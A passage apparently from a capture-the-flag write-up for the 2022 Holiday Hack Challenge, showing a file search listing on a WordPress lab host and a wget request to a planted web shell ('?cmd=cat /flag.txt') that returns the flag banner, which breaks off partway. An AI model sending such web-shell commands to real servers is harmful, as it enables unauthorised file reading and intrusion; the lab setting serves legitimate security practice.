 ```bash
    [0] => /flag.txt
    [1] => /proc/sys/kernel/acpi_video_flags
    [2] => /proc/kpageflags
    [3] => /sys/devices/platform/serial8250/tty/ttyS0/flags
    [4] => /sys/devices/virtual/net/eth0/flags
    [5] => /sys/devices/virtual/net/lo/flags
    [6] => /sys/module/scsi_mod/parameters/default_dev_flags
    [7] => /usr/src/wordpress/wp-includes/images/icon-pointer-flag.png
    [8] => /usr/src/wordpress/wp-includes/images/icon-pointer-flag-2x.png
    [9] => /usr/include/x86_64-linux-gnu/asm/processor-flags.h
    [10] => /usr/include/x86_64-linux-gnu/bits/termios-c_iflag.h
    [11] => /usr/include/x86_64-linux-gnu/bits/waitflags.h
    [12] => /usr/include/x86_64-linux-gnu/bits/mman-map-flags-generic.h
    [13] => /usr/include/x86_64-linux-gnu/bits/termios-c_oflag.h
    [14] => /usr/include/x86_64-linux-gnu/bits/ss_flags.h
    [15] => /usr/include/x86_64-linux-gnu/bits/termios-c_lflag.h
    [16] => /usr/include/x86_64-linux-gnu/bits/termios-c_cflag.h
    [17] => /usr/include/linux/tty_flags.h
    [18] => /usr/include/linux/kernel-page-flags.h
    [19] => /usr/bin/dpkg-buildflags
    [20] => /usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/waitflags.ph
    [21] => /usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/ss_flags.ph
    [22] => /usr/share/dpkg/buildflags.mk
    [23] => /usr/local/lib/php/build/ax_check_compile_flag.m4
    [24] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-1024x684.png
    [25] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-2048x1367.png
    [26] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-300x200.png
    [27] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-600x401.png
    [28] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-300x300.png
    [29] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-220x154.png
    [30] => /var/www/html/wp-content/uploads/2022/10/bowes_flag.png
    [31] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-100x100.png
    [32] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-768x513.png
    [33] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-150x150.png
    [34] => /var/www/html/wp-content/uploads/2022/10/bowes_flag-1536x1025.png
    [35] => /var/www/html/wp-content/plugins/woocommerce/packages/woocommerce-blocks/assets/js/settings/blocks/feature-flags.ts
    [36] => /var/www/html/wp-includes/images/icon-pointer-flag.png
    [37] => /var/www/html/wp-includes/images/icon-pointer-flag-2x.png
)

RETVAL --> 0
```
```bash
grinchum-land:~/wordpress.flag.net.internal$ wget "wordpress.flag.net.internal?cmd=cat /flag.txt" -q -O -
OUTPUT --> Array
(
    [0] => 
    [1] =>                         Congratulations! You've found the HHC2022 Elfen Ring!
    [2] => 
    [3] => 
    [4] =>                                         ░░░░            ░░░░
    [5] =>                                 ░░                              ░░░░
    [6] =>                             ░░                                      ░░░░
    [7] =>                                                                         ░░
    [8] =>                       ░░                                                  ░░░░
    [9] =>                                                                               ░░
    [10] =>                                       ░░░░▒▒▓▓▓▓▓▓▓▓▓▓▓▓▒▒░░░░                  ░░
    [11] =>                                   ░░▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒░░                ░░
    [12] =>                               ░░▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒                ░░
    [13] =>                           ░░▒▒▒▒▓▓▓▓▓▓▓▓▓▓░░              ▓▓▓▓▓▓▓▓▒▒░░░░            ░░░░
```
